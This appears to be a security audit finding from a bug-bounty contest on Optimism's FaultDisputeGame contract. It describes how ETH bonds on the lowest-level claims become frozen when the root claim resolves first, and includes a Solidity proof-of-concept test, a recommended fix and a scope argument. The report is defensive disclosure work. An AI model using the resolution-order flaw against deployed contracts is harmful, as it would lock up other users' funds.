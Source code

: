 Precise Iris Shell

high

# ETH Bonds at the lowest depth of their respective path can be frozen

## Summary
The bond at the lowest level of each split can be frozen if the entire game is resolved. There is no requirement that claims at the lowest level of each bisection are resolved, and once resolutions percolate all the way up to the root and the entire game is resolved, users will not be able to claim the bonds at the lowest level.

## Vulnerability Detail
Take the following example of a claim tree:

```solidity
           A
         B   C
       D    E
     F

```

In the above example, both E and F can be frozen. Once the timer has passed, anyone can resolve D, B, and C. And finally resolve the root claim, A. Once the root claim is resolved, users cannot resolve F and E.

This scenario arises because there is no logic to ensure that the lowest-level claims in each respective bisection are resolved prior to their parent. The logic instead enforces that a claim cannot be resolved until all of its children **do not have any subgames**. Lowest-level claims never have subgames.

Once the root claim is resolved, the game `status` flips to DEFENDER_WINS or CHALLENGER_WINS, meaning that claims cannout be resolved due to the following requirement:

```solidity
if (status != GameStatus.IN_PROGRESS) revert GameNotInProgress();
```

## Impact
- Freezing of ETH bonds

## Code Snippet
https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L441-L446

https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L407

## Tool used
Manual Review

## Recommendation
Instead of determining if a claim can be resolved by looking at the `subgames` array of its children, add a simple `resolved` flag to each child. This will make the logic for determining the resolution order much more explicit.

## Scope validity
The [contest handbook](https://oplabs.notion.site/Public-OP-Stack-Fault-Proofs-Sherlock-Competition-Handbook-e4cfdf210a5c45c79230af19653163cc#9f0b799c8ca941489dc72da65f21e16e) states:

However, please note that the game resolution logic within the FaultDisputeGame is not in scope for this contest. We have chosen to have these components reviewed separately given the complexity of the game resolution logic and its dependencies (including MIPS.sol and others). Although reports about incorrect resolution are appreciated, they will not be considered valid reports for this contest. Participants should assume that the games can resolve incorrectly and should confirm that key invariants hold nonetheless.

### Top-Level Invariants

Invariants listed below are the critical, high-level goals that should be satisfied by the contracts that are in scope of this contest. Always keep these invariants in mind.

#### `FaultDisputeGame`

- Participants must be able to withdraw a credit denominated in ETH exactly equal to but not greater than the credit amount that would be distributed to that user by a fully correct resolution of the `FaultDisputeGame`.

**This submission does not describe incorrect game resolution. Instead it demonstrates how the key invariant that users are not able to withdraw the correct amount of ETH is broken. This is in-scope based on the last line of the Scope section: "Participants should assume that the games can resolve incorrectly and should confirm that key invariants hold nonetheless."**

## POC
There exists a test case called `test_resolve_bondPayouts_succeeds` which resolves ALL claims in the following order:

8, 7, 6, 5, 4, 3, 2, 1, Root

 This POC has modified that test case to resolve claims in the following order:

7, 6, 5, 4, 3, 2, 1, Root, 8

The claim to 8 reverts, though the test continues to instead show the final WETH balances.

```solidity
function test_resolve_bondPayouts_butNotLast_succeeds() public {
    // Give the test contract some ether
    uint256 bal = 1000 ether;
    vm.deal(address(this), bal);

    // Make claims all the way down the tree.
    uint256 bond = _getRequiredBond(0);
    uint256 totalBonded = bond;
    gameProxy.attack{value: bond}(0, _dummyClaim());
    bond = _getRequiredBond(1);
    totalBonded += bond;
    gameProxy.attack{value: bond}(1, _dummyClaim());
    bond = _getRequiredBond(2);
    totalBonded += bond;
    gameProxy.attack{value: bond}(2, _dummyClaim());
    bond = _getRequiredBond(3);
    totalBonded += bond;
    gameProxy.attack{value: bond}(3, _dummyClaim());
    bond = _getRequiredBond(4);
    totalBonded += bond;
    gameProxy.attack{value: bond}(
      4,
      _changeClaimStatus(_dummyClaim(), VMStatuses.PANIC)
    );
    bond = _getRequiredBond(5);
    totalBonded += bond;
    gameProxy.attack{value: bond}(5, _dummyClaim());
    bond = _getRequiredBond(6);
    totalBonded += bond;
    gameProxy.attack{value: bond}(6, _dummyClaim());
    bond = _getRequiredBond(7);

    // @audit Storing this variable just for easy understanding
    uint256 lastBond = bond;

    totalBonded += bond;
    gameProxy.attack{value: bond}(7, _dummyClaim());
    gameProxy.addLocalData(LocalPreimageKey.DISPUTED_L2_BLOCK_NUMBER, 8, 0);
    gameProxy.step(8, true, absolutePrestateData, hex'');

    // Ensure that the step successfully countered the leaf claim.
    (, address counteredBy, , , , , ) = gameProxy.claimData(8);
    assertEq(counteredBy, address(this));

    // Ensure we bonded the correct amounts
    assertEq(address(this).balance, bal - totalBonded);
    assertEq(address(gameProxy).balance, 0);
    assertEq(delayedWeth.balanceOf(address(gameProxy)), totalBonded);

    // Resolve all claims
    vm.warp(block.timestamp + 3 days + 12 hours + 1 seconds);
    for (uint256 i = gameProxy.claimDataLen() - 1; i > 0; i--) {
      (bool success, ) = address(gameProxy).call(
        abi.encodeCall(gameProxy.resolveClaim, (i - 1))
      );
      assertTrue(success);
    }

    gameProxy.resolve();

    // @audit Entire game can be resolved prior to lowest-level claim being resolved
    (bool success, ) = address(gameProxy).call(
      abi.encodeCall(gameProxy.resolveClaim, (8))
    );
    // @audit Not asserting here to instead show the WETH balances are incorrect
    // assertTrue(success);

    // Wait for the withdrawal delay.
    vm.warp(block.timestamp + delayedWeth.delay() + 1 seconds);

    gameProxy.claimCredit(address(this));

    // Ensure that bonds were paid out correctly.
    // @audit - Last bond gets skipped. WETH stays in possesion of GameProxy
    assertEq(address(this).balance, bal - lastBond);
    assertEq(address(gameProxy).balance, 0);
    assertEq(delayedWeth.balanceOf(address(gameProxy)), lastBond);

    // Ensure that the init bond for the game is 0, in case we change it in the test suite in the future.
    assertEq(disputeGameFactory.initBonds(GAME_TYPE), 0);
  }
```
